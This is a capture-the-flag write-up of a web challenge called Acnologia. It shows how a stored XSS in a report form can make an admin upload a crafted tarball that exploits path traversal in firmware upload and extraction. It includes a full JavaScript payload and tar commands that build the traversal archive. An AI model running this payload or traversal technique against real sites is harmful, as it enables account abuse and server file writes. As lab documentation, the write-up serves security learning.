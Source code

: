 # [Web] Acnologia

Disclaimer: we did not finish this challenge, but we still want to document our thought process in the resolution. Solutions can be found [here](https://gore-ez-knee.github.io/posts/htb-ca-2022-writeup-table/)

---

Acnologia Portal is an application which allows admins to upload firmware, and users to report problem on those firmware.

As usual, whenever some input is user-provided and parsed by an elevated user, this calls for an XSS. Either to steal a cookie if `HTTP only` is not enabled, or as CSRF, is CSRF tokens are not in use. In this case cookies are using `HTTP only`: we cannot steal sessions.

However the source code is provided, and we can perform actions on behalf of the admin from our Javascript input.

The admin needs to upload a file to the `/api/firmware/upload` endpoint.

![source upload](./img/web_acnologia_1.png)

This will be handled by the `extract_firmware` function. This function will extract a `.tar.gz` file from the `/tmp` folder, into a randomly created directory in the web root.

![source extract](./img/web_acnologia_2.png)

This function is vulnerable to path traversal in both:

 - the upload file: we can use a file name such as `../../../../app/test.txt`
 - the archive extract: content of the tarball can be `../../../../flag.txt`

To sum up:

 - register a user
 - login as the user
 - create a Javacript for the admin to upload a firmware. Firmware can either be any file, put wherever we can write, or a `.tar.gz`, containing files that locate outside the web root after extraction

Here is the Javascript for the XSS: from any registered user to create a report, for the admin to visit. This allows us to upload any base64 encoded file (instead of plain binary), on behalf of the admin:

```
<script>
    function b64_to_bytearray(b64str) {
        var byteCharacters = atob(b64str);
        var byteArrays = [];
        var sliceSize = 512;

        for (let offset = 0; offset < byteCharacters.length; offset += sliceSize) {
            const slice = byteCharacters.slice(offset, offset + sliceSize);
            const byteNumbers = new Array(slice.length);
            for (let i = 0; i < slice.length; i++) {
                byteNumbers[i] = slice.charCodeAt(i);
            }
            const byteArray = new Uint8Array(byteNumbers);
            byteArrays.push(byteArray);
        }

        return byteArrays;
    }

function upload_firmware(file, content) {
    var uri = "/api/firmware/upload";
    xhr = new XMLHttpRequest();
    xhr.open("POST", uri, true);
    xhr.withCredentials = "true";
    var formData = new FormData();
    var exploit_b64 = content
    var exploit_tgz = b64_to_bytearray(exploit_b64);
    var blob = new Blob(exploit_tgz, {type: "application/gzip"});
    formData.append("file", blob, file);
    xhr.send(formData);
}

// base64 < file.tgz | tr -d "\n"
setTimeout(upload_firmware("../../../lol.tgz", "H4sIAAAAAAAAA+3RMQ7DIAxAUY7CCYghJjlPlnZBQkqJlOPXyZih7cIQ9b/FSHgA/VLL4DoTM+d8TnOd5zlq0qjjLGp7UUadnM+9H3bYXm1ZvXdrre3T3rf7myrWP4ThUZZnaHufHx6BJ9Uf+idRSdY/JbH+0uU1F3/eHwAAAAAAAAAAAAAAAMB9vQEbwhL2ACgAAA=="),5000);
</script>
```

The path traversal with a tarball is created with the `transform` option:

```
touch flag.txt
tar --transform "s|flag.txt|../../flag.txt|" -cvzf flag.tgz flag.txt
base64 < flag.tgz | tr -d "\n"
```

